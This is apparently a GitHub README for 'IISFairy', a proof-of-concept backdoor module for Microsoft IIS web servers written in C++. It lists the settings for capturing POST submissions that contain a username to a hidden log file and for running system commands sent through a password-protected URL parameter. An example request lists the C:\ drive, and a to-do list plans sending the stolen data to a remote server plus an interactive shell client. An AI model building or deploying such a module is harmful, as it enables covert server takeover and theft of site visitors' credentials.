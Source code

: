 # IISFairy
Simple PoC IIS Native module coded in c++, it's able to capture post request to a specific url and exucte commands through url request.

# Settings
Before compiling make sure to set below settings so it suits to your needs.

<b>Logging part :</b>

--> Page to save Post Request for :
PCWSTR getPostRequestfromthisUrl = L"yourmomistheiisfairy.html";

--> Trigger parameter in Post Request to start the log :
LPCSTR lpFound = strstr((LPCSTR)FormData, "username");

--> Local location to save logfile to :
std::wofstream outputFile("C:\\yourmomtheiisfairy.txt", std::ios::out | std::ios::app);

<b>CMD part :</b>

--> Parameter in get url request to activate cmd detection, a.k.a. password :
PCWSTR activateCMDtrigger = L"secretkey=iisfairy";

--> Parameter in get url request to get cmd from :
std::string paramValue = UrlDecode(ExtractQueryParamValue(urlBuffer, "sauce"));

--> Url request example to display C:\ directory :
http://localhost/yourmomistheiisfairy.html?secretkey=iisfairy&sauce=dir%20C:\

# Todo

--> Save captured post data handling ;
Use ping to send capatures post data back, use post url request to save data on remote server, 

--> Code a python client shell to interact as a "liveshell"

--> Tidy all my shit up.

--> Bang the IISFairy






